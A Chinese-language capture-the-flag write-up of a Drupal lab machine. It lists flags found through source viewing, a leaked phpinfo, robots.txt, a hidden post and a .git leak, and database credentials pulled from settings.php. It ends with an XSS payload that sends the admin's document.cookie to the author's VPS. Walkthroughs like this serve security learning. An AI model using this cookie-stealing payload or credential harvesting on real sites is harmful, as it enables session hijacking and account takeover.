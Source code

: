 
扫出好多...

然后再用新学到的姿势 `nikto -h xxx`扫一扫
也能扫出很多 主要是深度递归扫描 选择性参考


还是先打web端
源码找到flag1

评论处有xss 但tm离线靶机xss没用,...
phpinfo.php是直接泄露了的 flag2
`550e1bafe077ff0b0b67f4e32f29d751 `

还有.git泄露 翻了翻也没找到突破口

那就看给的网页吧 前面尝试了xss 还有个登录/注册
其余的没看出有啥用... 注册登录后也找不到一些能利用的点...
找到个 Administer的选项 需要admin身份

然后翻看recent post (/track) 发现大量帖子都是`Barbara`发的
在第二个帖子(hidden)找到 flag3 `57dbe55b42b307fb4115146d239955d0`

在/robots.txt 找到flag4 `4db00563d4181dc8d1dfd3b5cd6dc708`

然后看了看wp 要get源码(这靶机奇奇怪怪的... 点分的太杂了吧...)
直接GitHack dump源码

这种难度的靶机肯定不是让我们代码审计自己写exp :(
重点关注一些配置文件 找用户名 密码之类的

找drupal的站点配置文件
`/sites/default/default.settings.php`
`/sites/default/settings.php`

对比
`$db_url = 'mysql://username:password@localhost/databasename';`
`$db_url = 'mysqli://root:JumpUpAndDown@localhost/drupal';`

得到username:root   password:JumpUpAndDown

尝试mysql连接连不上...


回到先前找到的xss漏洞
结合我们的猜测: Barbara应该是管理员 我们向ta私信来获得ta的cookie
把cookie带到vps上

```
<script>document.write('<img src="http://192.168.136.146:9999/'+document.cookie+'"/>')</script>
```
